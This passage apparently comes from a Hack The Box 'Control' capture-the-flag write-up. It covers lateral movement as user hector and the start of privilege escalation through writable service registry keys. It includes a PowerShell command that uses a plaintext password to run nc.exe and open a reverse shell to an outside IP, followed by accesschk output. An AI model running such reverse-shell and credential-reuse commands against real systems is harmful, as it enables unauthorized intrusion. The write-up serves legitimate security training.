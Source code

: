 ![](/assets/images/htb-writeup-control/shell3.png)

Command used:

```powershell
$user = 'fidelity\hector'
$pw = 'l33th4x0rhector'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.51 5555 -e cmd.exe}
```
## Priv esc using insecure ACLs on services

I uploaded `accesschk.exe` and checked files and registry entries that I have access to. I noticed that I had Read/Write access to a lot of registry entries related to services.

`C:\Users\Hector\Documents>c:\windows\system32\spool\drivers\color\accesschk.exe "Hector" -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services`

```
[...]
RW HKLM\System\CurrentControlSet\Services\sdbus\Parameters
RW HKLM\System\CurrentControlSet\Services\SDFRd
RW HKLM\System\CurrentControlSet\Services\SDFRd\Parameters
RW HKLM\System\CurrentControlSet\Services\SDFRd\Parameters\Wdf
RW HKLM\System\CurrentControlSet\Services\sdstor
RW HKLM\System\CurrentControlSet\Services\sdstor\Parameters
RW HKLM\System\CurrentControlSet\Services\seclogon
RW HKLM\System\CurrentControlSet\Services\seclogon\Parameters
RW HKLM\System\CurrentControlSet\Services\seclogon\Security
RW HKLM\System\CurrentControlSet\Services\SecurityHealthService
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc\Parameters
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc\Security
[...]
```
